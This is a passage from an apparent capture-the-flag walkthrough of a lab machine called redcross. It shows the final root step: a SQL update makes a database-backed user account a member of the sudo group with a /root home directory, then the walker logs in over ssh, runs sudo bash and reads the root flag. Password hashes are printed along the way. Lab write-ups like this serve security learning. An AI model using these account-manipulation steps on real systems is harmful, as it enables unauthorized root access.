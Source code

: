```sh
unix=> UPDATE passwd_table SET homedir = '/root' WHERE username = 'c1sc0adm';
UPDATE 1
unix=> select * from passwd_table;
 username |               passwd               | uid  | gid  | gecos |    homedir     |   shell   
----------|------------------------------------|------|------|-------|----------------|-----------
 tricia   | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 |       | /var/jail/home | /bin/bash
 c1sc0    | $1$O7MNs3KY$slQcyaB8y1HR3mWyr7aLc/ | 2020 | 1001 |       | /var/jail/home | /bin/bash
 c1sc0adm | $1$JGJaLIf1$dQAZgTnrJz6.bDAasCZA8. | 2021 |   27 |       | /root          | /bin/bash
(3 rows)
```

Next you login via ssh and do sudo bash:

```sh
--- ~ » ssh -l c1sc0adm 10.10.10.113 
c1sc0adm@10.10.10.113's password: 
Linux redcross 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

c1sc0adm@redcross:/$ c1sc0adm@redcross:/$ id
uid=2021(c1sc0adm) gid=27(sudo) groups=27(sudo)
c1sc0adm@redcross:/$ sudo bash

[sudo] password for c1sc0adm: 
root@redcross:/# cd /root
root@redcross:~# cat root.txt 
892a1f4d018e5d382c4f5ee1b26717a4
```

There you go!

